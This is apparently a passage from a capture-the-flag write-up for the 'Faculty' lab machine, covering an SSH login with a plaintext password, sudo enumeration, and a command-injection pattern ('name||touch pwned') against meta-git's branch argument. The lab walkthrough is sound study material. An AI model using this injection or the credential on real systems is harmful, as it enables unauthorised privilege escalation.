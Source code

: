 ```bash
sshpass -p 'Co.met06aci.dly53ro.per' ssh gbyolo@faculty.htb
...
gbyolo@faculty:~$
```

# User as developer

## sudo -u developer

```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
gbyolo@faculty:~$ ls -al /usr/local/bin/meta-git
lrwxrwxrwx 1 root root 41 Nov 10  2020 /usr/local/bin/meta-git -> ../lib/node_modules/meta-git/bin/meta-git
gbyolo@faculty:~$ groups
gbyolo
```

meta-git in certain versions is vulnerable to command injection through the branch name. Format of this exploit would be `meta-git clone 'name||touch pwned'`. Advisory on Github for that can be found here: [https://github.com/advisories/GHSA-qcff-ffx3-m25c](https://github.com/advisories/GHSA-qcff-ffx3-m25c).

Notable here there is some mail eluding to running meta-git:

```bash
gbyolo@faculty:~$ ls /var/mail
gbyolo
gbyolo@faculty:~$ cat /var/mail/gbyolo 
From developer@faculty.htb  Tue Nov 10 15:03:02 2020
Return-Path: <developer@faculty.htb>
X-Original-To: gbyolo@faculty.htb
Delivered-To: gbyolo@faculty.htb
Received: by faculty.htb (Postfix, from userid 1001)
	id 0399E26125A; Tue, 10 Nov 2020 15:03:02 +0100 (CET)
Subject: Faculty group
To: <gbyolo@faculty.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20201110140302.0399E26125A@faculty.htb>
Date: Tue, 10 Nov 2020 15:03:02 +0100 (CET)
From: developer@faculty.htb
X-IMAPbase: 1605016995 2
Status: O
X-UID: 1

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```
